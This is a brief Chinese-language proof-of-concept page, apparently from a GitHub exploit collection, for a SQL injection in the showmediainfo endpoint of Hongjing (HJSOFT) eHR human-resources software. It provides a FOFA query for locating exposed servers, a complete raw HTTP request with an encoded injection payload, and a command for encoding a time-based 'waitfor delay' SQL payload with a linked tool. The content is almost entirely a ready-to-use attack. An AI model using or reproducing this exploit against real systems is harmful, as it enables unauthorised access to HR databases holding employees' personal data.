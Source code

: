 ## 宏景eHR人力资源管理软件showmediainfo存在SQL注入漏洞


## fofa
```
app="HJSOFT-HCM"
```

## poc
```
GET /workbench/duty/showmediainfo?kind=0&usernumber=1MV8sCtnMcsZFzLhJXUMPAATTP2HJFPAATTPVIRoUrFdir1XVNthrak35kPAATTP3HJDPAATTP&planid=1&objectid=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

加密工具：https://github.com/vaycore/HrmsTool/releases/tag/0.1 

java -jar HrmsTool.jar -e "1';waitfor delay '0:0:5'--"
